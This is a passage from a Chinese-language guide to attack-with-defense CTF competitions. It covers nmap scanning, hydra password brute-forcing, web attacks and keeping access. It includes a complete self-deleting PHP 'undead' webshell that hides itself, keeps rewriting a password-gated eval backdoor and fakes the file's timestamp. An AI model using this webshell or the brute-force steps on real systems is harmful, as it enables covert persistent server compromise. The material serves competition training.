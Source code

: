 ```python
                        f.close()
                    except Exception as e:
                        print u'[-] log error : done_diff: ' + getUnicode(filekey)
                        pass
        time.sleep(2)
        # print '[*] ' + getUnicode(time.ctime())

```



## 六、信息收集

这一步在有队友帮忙干前面的事情的情况下，这一步可以直接开始。

1. **探测主机。**如果主办方不告诉攻击 ip 的话，需要自己扫描网段内ip，适用 `nmap` 扫出来并作记录。一般在同一个c段。

   使用 `nmap –sn 192.168.2.0/24` 扫描。

2. **探测端口。**因为一般主办方给的机器都是一样的，所以直接 `nmap` 扫描自己的机子开放端口就可以了,同时注意端口运行的服务以及是否存在漏洞。

3. **爆破别人的密码**。ssh、mysql、网站后台都可以爆破，使用 `hydra` .

## 七、web攻击

web 一般是 php 写的。如果是 cms ，可使用已知漏洞攻击，如果是出题人自己出的，可使用第四步查到的后门直接攻击。

这个时候就要比手速了。

[![BFnb7R.png](https://s1.ax1x.com/2020/10/22/BFnb7R.png)](https://imgchr.com/i/BFnb7R)

工具扫描过后，开始常规渗透测试，sql 注入、文件上传等。

## 八、权限维持

拿到 `webshell` 后，需要做的维持权限，要不然被其他队给删掉或者改掉咋们利用的那个 后门之后我们的权限就没了。。。。所以说方便后续得分，需要进行权限的维持。

#### 1. 隐匿自身不死马

```php
<?php 
ignore_user_abort(true);  //ignore_user_abort如果设置为 TRUE，则忽略与用户的断开,脚本将继续运行。
set_time_limit(0);   //PHP脚本限制了执行时间，set_time_limit(0)设置一个脚本的执行时间为无限长
unlink(__FILE__);   //删除自身
$file = '.config.php';
$code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){@eval($_POST[a]);} ?>';
while (1){
    file_put_contents($file,$code);  //创建shell.php
    system('touch -m -d "2018-12-01 09:10:12" .config.php');
    usleep(50);      //间隔时间
}
?>
```

生成 `.config.php` 普通 `ls` 列不出来， 得 `ls -a` 才会列出。
